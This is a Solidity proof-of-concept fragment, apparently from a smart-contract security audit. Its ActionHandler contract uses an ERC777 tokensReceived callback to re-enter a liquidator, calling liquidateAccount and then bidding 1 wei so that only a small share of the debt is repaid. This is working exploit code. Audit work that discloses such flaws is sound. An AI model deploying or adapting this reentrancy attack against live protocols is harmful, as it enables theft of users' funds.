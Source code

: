     /// @notice ERC777Recipient interface
    interface IERC777Recipient {
       
        function tokensReceived(
            address operator,
            address from,
            address to,
            uint256 amount,
            bytes calldata userData,
            bytes calldata operatorData
        ) external;
    }
    
     /// @notice Liquidator interface
    interface ILiquidator {
        function liquidateAccount(address account) external;
        function bid(address account, uint256[] memory askedAssetAmounts, bool endAuction_) external;
    }
    
     /// @notice actionHandler contract that will trigger the attack via ERC777's `tokensReceived()` callback
    contract ActionHandler is IERC777Recipient, IActionBase {
    
        ILiquidator public immutable liquidator;
        address public immutable account;
        uint256 triggered;
    
        constructor(address _liquidator, address _account) {
            liquidator = ILiquidator(_liquidator);
            account = _account;
        }  
    
    		 /// @notice ERC777 callback function
        function tokensReceived(
            address operator,
            address from,
            address to,
            uint256 amount,
            bytes calldata userData,
            bytes calldata operatorData
        ) external {
            // Only trigger the callback once (avoid triggering it while receiving funds in the setup + when receiving final funds)
            if(triggered == 1) {
                triggered = 2;
                liquidator.liquidateAccount(account);
                uint256[] memory askedAssetAmounts = new uint256[](1);
                askedAssetAmounts[0] = 1; // only ask for 1 wei of token so that we repay a small share of the debt
                liquidator.bid(account, askedAssetAmounts, true);
            }
    				unchecked{
    	        triggered++;
    				}
        }
    